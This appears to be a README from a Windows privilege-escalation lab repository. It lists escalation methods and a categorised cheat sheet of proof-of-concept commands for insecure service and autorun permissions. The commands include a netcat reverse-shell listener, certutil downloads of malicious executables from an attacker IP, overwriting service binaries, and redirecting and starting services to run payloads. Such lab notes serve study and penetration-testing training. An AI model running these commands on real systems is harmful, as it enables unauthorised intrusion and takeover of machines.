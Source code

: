 *This dirctory contians explanations and walk throughs on the following windows privesc methods*

- Buffer Overflow
- DLL Injection 
- DLL Hijacking 
- Token Manipulation 
- Insecure Files Permission 
- Insecure Folders Permission
- Insecure Service Permission
- Insecure Registery Permission
- Runas
- AlwaysInstallElevated 
- Unquoted Service Paths
- Kernel Exploitation
- Stored Password 
- Runas Admin
- UAC Bypass



Below is a categorized list of all commands used across the Proof of Concept (PoC) reports for the vulnerabilities ("Insecure Service Executables," "Insecure Autoruns," and "Insecure Service Permissions").
---

## List of Commands Used in the Privilege Escalation PoCs

### 1. Initial Access and Setup
**Use Case**: Commands used to gain initial access to the target system and set up the environment for exploitation, such as establishing a reverse shell or downloading malicious files.

- **Set up a listener on the attacker machine to capture reverse shell connections**:  
  ```bash
  nc -nlvp 2294
  ```
  - Used in "Insecure Service Executables" to listen for incoming connections from the target.

- **Download a malicious file (`esc.exe`, `x.exe`) to the target machine**:  
  ```bash
  certutil -urlcache -split -f http://10.4.106.235/esc.exe
  ```
  ```bash
  certutil -urlcache -split -f http://10.4.106.235/x.exe
  ```
  - Used in "Insecure Service Executables" to download `esc.exe` and `x.exe` for exploitation.

---

### 2. Service and Autorun Enumeration
**Use Case**: Commands used to gather information about services or autorun programs, such as their configuration, privilege level, or binary paths.

- **Query a service to check its configuration and privilege level**:  
  ```bash
  sc qc filepermsvc
  ```
  - Used in "Insecure Service Executables" to confirm `filepermsvc` runs as `LocalSystem`.

  ```bash
  sc qc daclsvc
  ```
  - Used in "Insecure Service Permissions" to confirm `daclsvc` runs as `LocalSystem`.

- **Query the Windows Registry to identify autorun programs**:  
  ```bash
  reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
  ```
  - Used in "Insecure Autoruns" to find autorun programs configured to start automatically.

- **Use WMIC to list startup programs and their commands**:  
  ```bash
  wmic startup get caption,command
  ```
  - Used in "Insecure Autoruns" as an alternative method to identify autorun programs.

---

### 3. Permission Analysis
**Use Case**: Commands used to analyze permissions on services or binaries to identify vulnerabilities (e.g., write access for unprivileged users).

- **Check permissions on a service binary**:  
  ```bash
  C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
  ```
  - Used in "Insecure Service Executables" to confirm `BUILTIN\Users` has `FILE_ALL_ACCESS`.

- **Check permissions on an autorun binary**:  
  ```bash
  C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
  ```
  - Used in "Insecure Autoruns" to confirm the `Everyone` group has write access.

- **Check user permissions on a service**:  
  ```bash
  C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
  ```
  - Used in "Insecure Service Permissions" to confirm the `user` account has `SERVICE_CHANGE_CONFIG` permissions.

---

### 4. File Manipulation
**Use Case**: Commands used to replace legitimate binaries with malicious ones to facilitate privilege escalation.

- **Replace a service binary with a malicious file**:  
  ```bash
  copy esc.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
  ```
  ```bash
  copy x.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
  ```
  - Used in "Insecure Service Executables" to replace `filepermservice.exe` with `esc.exe` or `x.exe`.

- **Replace an autorun binary with a malicious file**:  
  ```bash
  copy C:\Users\user\esc.exe "C:\Program Files\Autorun Program\program.exe" /Y
  ```
  - Used in "Insecure Autoruns" to replace `program.exe` with `esc.exe`.

---

### 5. Service Configuration Modification
**Use Case**: Commands used to modify a service's configuration, such as changing its binary path to point to a malicious file.

- **Modify a service's binary path to point to a malicious file**:  
  ```bash
  sc config daclsvc binpath= "\"C:\users\user\esc.exe\""
  ```
  ```bash
  sc config daclsvc binpath= "C:\Users\user\malicious.exe"
  ```
  - Used in "Insecure Service Permissions" to redirect the `daclsvc` service to execute `esc.exe` or `malicious.exe`.

---

### 6. Service Execution
**Use Case**: Commands used to start a service, triggering the execution of the malicious binary and completing the exploit.

- **Start a service to execute the malicious binary**:  
  ```bash
  net start filepermsvc
  ```
  - Used in "Insecure Service Executables" to execute the replaced binary (`esc.exe` or `x.exe`).

  ```bash
  net start daclsvc
  ```
  - Used in "Insecure Service Permissions" to execute the modified binary (`esc.exe`).

---

### Summary of Categories
- **Initial Access and Setup**: Commands to establish a foothold on the target system (`nc`, `certutil`).  
- **Service and Autorun Enumeration**: Commands to identify vulnerable services or autorun programs (`sc qc`, `reg query`, `wmic`).  
- **Permission Analysis**: Commands to verify exploitable permissions (`accesschk`).  
- **File Manipulation**: Commands to replace binaries with malicious files (`copy`).  
- **Service Configuration Modification**: Commands to alter service configurations (`sc config`).  
- **Service Execution**: Commands to trigger the exploit by starting the service (`net start`).

